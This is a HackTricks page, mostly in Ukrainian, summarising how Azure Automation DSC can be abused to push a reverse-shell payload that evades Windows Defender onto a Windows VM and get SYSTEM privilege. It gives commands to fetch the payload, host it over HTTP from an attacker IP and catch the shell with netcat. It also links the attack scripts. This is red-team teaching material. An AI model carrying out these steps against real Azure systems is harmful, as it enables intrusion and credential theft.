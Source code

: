 # Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

Процес включає налаштування інфраструктури віддаленого сервера для розміщення модифікованого корисного навантаження Nishang `Invoke-PowerShellTcp.ps1`, названого `RevPS.ps1`, призначеного для обходу Windows Defender. Корисне навантаження подається з машини Kali Linux з IP `40.84.7.74` за допомогою простого Python HTTP сервера. Операція виконується через кілька етапів:

#### Step 1 — Create Files

* **Files Required:** Потрібні два скрипти PowerShell:
1. `reverse_shell_config.ps1`: Файл Desired State Configuration (DSC), який отримує та виконує корисне навантаження. Його можна отримати з [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1).
2. `push_reverse_shell_config.ps1`: Скрипт для публікації конфігурації на VM, доступний на [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).
* **Customization:** Змінні та параметри в цих файлах повинні бути адаптовані до конкретного середовища користувача, включаючи імена ресурсів, шляхи до файлів та ідентифікатори сервера/корисного навантаження.

#### Step 2 — Zip Configuration File

* Файл `reverse_shell_config.ps1` стискається в `.zip` файл, що робить його готовим для передачі до Azure Storage Account.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Крок 3 — Встановлення контексту зберігання та завантаження

* Стиснутий файл конфігурації завантажується в заздалегідь визначений контейнер зберігання Azure, azure-pentest, за допомогою cmdlet Set-AzStorageBlobContent Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Крок 4 — Підготовка Kali Box

* Сервер Kali завантажує корисне навантаження RevPS.ps1 з репозиторію GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* Скрипт редагується для вказівки цільової Windows VM та порту для зворотного шелу.

#### Крок 5 — Опублікувати файл конфігурації

* Файл конфігурації виконується, в результаті чого скрипт зворотного шелу розгортається у вказаному місці на Windows VM.

#### Крок 6 — Хостинг корисного навантаження та налаштування прослуховувача

* Запускається Python SimpleHTTPServer для хостингу корисного навантаження, разом з прослуховувачем Netcat для захоплення вхідних з'єднань.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* Заплановане завдання виконує payload, досягаючи привілеїв рівня SYSTEM.

#### Висновок

Успішне виконання цього процесу відкриває численні можливості для подальших дій, таких як витік облікових даних або розширення атаки на кілька ВМ. Посібник заохочує до безперервного навчання та креативності в сфері Azure Automation DSC.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
